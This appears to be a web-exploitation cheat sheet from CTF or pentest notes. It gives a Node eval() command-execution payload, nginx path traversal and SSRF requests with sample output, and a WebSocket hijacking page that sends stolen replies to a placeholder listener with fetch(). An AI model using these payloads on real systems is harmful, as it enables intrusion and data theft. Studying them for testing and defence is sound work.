

## NodeJS
### eval()
Payload to exploit a poorly protected `eval()` :
```js
res.end(require('child_process').execSync('<bash_command>').toString())
```

## Nginx
### Misconfigurations
#### Root Location
The configuration below has a major vulnerability relating to the location of its `root` directory.
```nginx
server {
    listen       80;
    server_name  _;
    root /etc/nginx;
 
    location = / {
        return 302 /login/login.html;
    }
 
    location /login/ {
        alias /usr/share/nginx/html/login/;
    }
 
 
    location /static/ {
        alias /var/www/app/static/;
    }
 
    location / {
        try_files $uri $uri/ =404;
        default_type text/plain;
 
    }
   
    error_page 404 =200 /error.txt;
 
    location /error.txt {
        internal;
    }
}
```
We can see the line `root /etc/nginx;`, which tells us that the root of the HTTP service points to this directory, which is no more than the **nginx** configuration folder. This makes it easy to perform *path traversal* without the need of a login. For example, with a little knowledge of **nginx** configuration, we can deduce that there are various default configuration files, such as `/etc/nginx/conf.d/default.conf`, which can be accessed as follows:
```bash linenums="0"
curl http://<url_to_pwn>/conf.d/default.conf
```
#### SSRF
Une configuration nginx trop permissive peut permettre une SSRF très facilement dans le cas où une partie du site n'est accessible que par le serveur.
```nginx
server {
    listen 80;
    root /var/www/app/;
    resolver 127.0.0.11 ipv6=off;

    location / {
        root /var/www/app/login/;
        try_files $uri $uri/login.html $uri/ =404;
    }

    location /static/ {
            alias /var/www/app/static/;
    }

    location /uploads/ {
        allow 127.0.0.1;
        deny all;
        autoindex on;
        alias /var/www/app/uploads/;
    }

    location ~ /dir_enum(.*) {
        proxy_pass   http://example$1;
        proxy_redirect off;
    }
}
```
Here, thanks to the last block which accepts any string (the regex is a hint), you can place whatever you like after the string `http://example`. By using DNS resolution with an external domain, you can use the query shown below.
```bash linenums="0"
curl 'http://<url_to_pwn>/dir_enum@127.0.0.1.nip.io/uploads/'

# -> http://example@127.0.0.1.nip.io/uploads/
```
Result:
```html
<html>
<head><title>Index of /uploads/</title></head>
<body>
<h1>Index of /uploads/</h1><hr><pre><a href="../">../</a>
<a href="nconf.bak">nconf.bak</a>                                          04-Sep-2024 12:53                 609
<a href="nginx.conf.bak">nginx.conf.bak</a>                                     04-Sep-2024 12:53                 611
</pre><hr></body>
</html>
```

## Web socket
### No Origin check
If a WebSocket connection is not verified, it is possible to make a user with greater privileges establish the WebSocket connection and send content on our behalf. This can be achieved via a malicious web page that calls upon the targeted WebSocket service:
```html title="index.html"
<script>
  var ws = new WebSocket("ws://<url_to_pwn>");

  ws.onopen = function () {
    // Sending commands through web socket
    ws.send("admin");
    ws.send("secret");
    ws.send("flag");
    // ...
  };

  ws.onmessage = function (e) {
    // Data exfiltration to our webhook
    fetch("http://<malicious_listener>/?d=" + encodeURIComponent(e.data), {mode: "no-cors"});
  };
</script>
```
Then, we can serve this document using python:
```bash linenums="0"
cd folder/to/index.html
python3 -m http.server 8000
```
> Note that it is entirely possible to carry out the same procedure using the `wss`/`https` pair.

## PHP


## SQL

# CSP
## Analyse du CSP

The website `https://csp-evaluator.withgoogle.com/` allows you to analyse a CSP (Content Security Policy) provided as input and identify any weaknesses or poor configuration practices it may contain.

Let’s take this CSP as an example (which is in no way based on a famous challenge from a well-known platform).

```connect-src 'none'; font-src 'none'; frame-src 'none'; img-src 'self'; manifest-src 'none'; media-src 'none'; object-src 'none'; script-src 'unsafe-inline'; style-src 'self'; worker-src 'none'; frame-ancestors 'none'; block-all-mixed-content;
```


We note that the `script-src` parameter contains the value `unsafe-inline`. This configuration allows the execution of JavaScript scripts embedded directly within the HTML code, such as inline `<script>` tags or certain HTML event handlers. Consequently, in the event of a Cross-Site Scripting (XSS) vulnerability, this CSP policy would not provide sufficient protection.